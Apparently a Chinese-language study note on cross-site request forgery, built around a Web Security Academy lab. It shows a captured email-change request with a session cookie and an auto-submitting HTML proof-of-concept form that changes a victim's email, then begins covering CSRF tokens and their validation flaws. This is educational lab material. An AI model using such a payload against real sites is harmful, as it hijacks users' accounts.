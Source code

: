 ## Mybatis搭配SpringBatch

https://mybatis.org/spring/batch.html

## 什么是CSRF

跨站请求伪造（也称为 CSRF）是一种 Web 安全漏洞，允许攻击者诱导用户执行他们不打算执行的操作。它允许攻击者部分规避同源策略，该策略旨在防止不同网站相互干扰。

### CSRF 是如何工作的？

要实现 CSRF 攻击，必须满足三个关键条件：

- **相关行动。**攻击者有理由诱发应用程序内的某个操作。这可能是特权操作（例如修改其他用户的权限）或对用户特定数据的任何操作（例如更改用户自己的密码）。
- **基于 Cookie 的会话处理。**执行该操作涉及发出一个或多个 HTTP 请求，并且应用程序仅依赖会话 cookie 来识别发出请求的用户。没有其他机制可以跟踪会话或验证用户请求。
- **没有不可预知的请求参数。**执行操作的请求不包含攻击者无法确定或猜测其值的任何参数。例如，当导致用户更改密码时，如果攻击者需要知道现有密码的值，则该功能不易受到攻击。

### 构建攻击

```html
例如我们知道一个更改用户邮箱为a@a.com的请求
POST /my-account/change-email HTTP/1.1
Host: 0ae300ff03bacd7380c60345002f00ce.web-security-academy.net
sec-ch-ua: "Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: https://0ae300ff03bacd7380c60345002f00ce.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Referer: https://0ae300ff03bacd7380c60345002f00ce.web-security-academy.net/my-account?id=wiener
Cookie: session=2TfCTfLB6orqMqqRsHSvanKFnchcKfNb

email=a%40a.com
```

```html
生成CSRF Poc
<form method="POST" action="https://0ae300ff03bacd7380c60345002f00ce.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="随便一个邮箱">
</form>
<script>
        document.forms[0].submit();
</script>
```

当在其他用户浏览器内运行到该代码时(可以通过评论等)，其他用户的邮箱就自动更改为自己的邮箱，实现攻击。

### 通过CSRF令牌进行防御

**CSRF 令牌**- CSRF 令牌是由服务器端应用程序生成并与客户端共享的唯一、秘密且不可预测的值。当尝试执行敏感操作（例如提交表单）时，客户端必须在请求中包含正确的 CSRF 令牌。这使得攻击者很难代表受害者构建有效的请求。缺陷有：

- CSRF 令牌的验证取决于请求方法，某些应用程序在请求使用 POST 方法时正确验证令牌，但在使用 GET 方法时跳过验证。
